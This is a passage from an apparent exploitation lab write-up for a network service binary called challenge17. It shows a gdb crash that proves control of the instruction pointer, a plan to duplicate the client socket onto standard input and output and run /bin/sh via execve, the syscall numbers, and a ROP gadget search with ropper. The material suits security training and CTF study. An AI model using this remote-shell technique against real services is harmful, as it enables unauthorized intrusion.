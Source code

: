 ```
0000| 0x7ffe56d23d40 --> 0x7ffe56d23da0 --> 0x7ffe56d23f10 --> 0x400e20 (<__libc_csu_init>:	push   r15)
0008| 0x7ffe56d23d48 --> 0x400400940
0016| 0x7ffe56d23d50 --> 0x7ffe56363531
0024| 0x7ffe56d23d58 --> 0x0
0032| 0x7ffe56d23d60 --> 0x0
0040| 0x7ffe56d23d68 --> 0x9c63e08e80
0048| 0x7ffe56d23d70 --> 0x7ffe56d23da0 --> 0x7ffe56d23f10 --> 0x400e20 (<__libc_csu_init>:	push   r15)
0056| 0x7ffe56d23d78 --> 0x400c6c (<doprocessing+191>:	jmp    0x400c6f <doprocessing+194>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000042424242 in ?? ()
gdb-peda$
```

## Step 3: Exploit plan

In this challenge, we will use the `dup2()` trick.

First we will duplicate the socket descriptor into the standard file input/output
file descriptors (0, 1, 2). After that we will execute `/bin/sh` by using `execve()`.
The string `/bin/sh` is already stored in LIBC, therefore all locations we access are static
and well known.

Code we will execute:
- dup2(x, 0)
- dup2(x, 1)
- dup2(x, 2)
- execve(&"/bin/sh", &0, &0)

So, what do we need:
- Client socket number (x)
- dup2() system call nr
- execve() system call nr
- pop rax gadget (syscall nr)
- pop rdi gadget (first argument)
- pop rsi gadget (second argument)

A bit of internet research resolves the system call numbers:
- dup2(): 33
- execve(): 59



## ROP Gadgets

Lets find our rop gadgets:

```
root@hlUbuntu64:~/challenges/challenge17# ropper
(ropper)> type rop
(ropper)> file challenge17
[INFO] Load gadgets for section: PHDR
[LOAD] loading... 100%
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] File loaded.

(challenge17/ELF/x86_64)> search pop rax
[INFO] Searching for gadgets: pop rax
[INFO] File: challenge17
0x0000000000400c91: pop rax; ret;

```